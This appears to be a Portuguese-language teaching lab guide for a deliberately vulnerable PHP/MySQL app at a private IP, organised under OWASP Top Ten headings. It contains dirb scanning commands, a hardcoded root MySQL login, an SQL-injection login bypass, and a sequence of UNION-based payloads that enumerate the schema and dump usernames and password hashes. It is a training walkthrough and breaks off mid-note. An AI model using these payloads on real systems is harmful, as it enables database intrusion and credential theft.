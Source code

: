 ```
	dirb http://192.168.10.2/app
	dirb http://192.168.10.2/app/ /usr/share/wordlists/dirb/big.txt
	dirb http://192.168.10.2/app/ /usr/share/wordlists/dirb/big.txt -X .php

#################################################################################################################################################################
# OWASP Top Ten (https://owasp.org/www-project-top-ten/): A02:2021 - Cryptographic Failures (https://owasp.org/Top10/A02_2021-Cryptographic_Failures/)
#################################################################################################################################################################

  Hash de senhas utilizando MD5, sem salt (usuários com a mesma senha têm o mesmo hash)
	mysql -uroot -pp@ssw0rd exemplo -e 'select * from usuarios'
      
  Ausência de criptografia para dados confidenciais/sensíveis
	mysql -uroot -pp@ssw0rd exemplo -e 'select * from confidencial'

#################################################################################################################################################################
# OWASP Top Ten (https://owasp.org/www-project-top-ten/): A03:2021 - Injection (https://owasp.org/Top10/A03_2021-Injection/)
#################################################################################################################################################################

- SQL Injection (SQLi)

  http://192.168.10.2/app/restrito/login.php:
    Login com qualquer senha, via seguintes "usuários":
      aluno' -- (-- seguido de um espaço)
      professor' -- (-- seguido de um espaço)
      
Obs.: Os caracteres "--" (assim como "#", por exemplo) são utilizados para fins de comentário no MySQL. Detalhes em https://dev.mysql.com/doc/refman/8.0/en/comments.html
  
  http://192.168.10.2/app/publico/pesquisa.php:
  ```
    ?search=1'
    ?search=1'or 1='1
    ?search=-1' union select 1'
    ?search=-1' union select 1,2'
    ?search=-1' union select 1,2,3,4,5'
      - Outra abordagem comum: ORDER BY (?search=-1' order by 1 %23 ; ?search=-1' order by 2 %23 ; [...] ; ?search=-1' order by 6 %23, com erro indicando que não há a coluna 6 no exemplo)
    ?search=-1' union select 1,version(),3,4,5'
    ?search=-1' union select 1,user(),version(),4,5'
    ?search=-1' union select 1,user(),version(),database(),5'
    ?search=-1' union select 1,table_name,3,4,5 from information_schema.tables %23
    ?search=-1' union select 1,table_name,3,4,5 from information_schema.tables where table_schema="exemplo" %23
    	- Ou: -1' union select 1,table_name,3,4,5 from information_schema.tables where table_schema=database() %23
    ?search=-1' union select 1,column_name,3,4,5 from information_schema.columns where table_schema="exemplo" and table_name="usuarios" %23
    ?search=-1' union select 1,codigo,usuario,senha,tipo from usuarios %23
    ?search=-1' union select 1,concat(usuario,':',senha),3,4,5 from usuarios %23
```
Obs. 1: "%23" refere-se ao caractere "#" codificado (https://www.w3schools.com/tags/ref_urlencode.ASP), utilizado para comentário no MySQL (assim como "--", por exemplo). Para realização do SQLi via campo de pesquisa (em vez de modificações na URL), utilizar "#" em vez de "%23" (ex.: -1' union select 1,concat(usuario,':',senha),3,4,5 from usuarios #)

Obs. 2: Consultas equivalentes ("or" e "union"):
```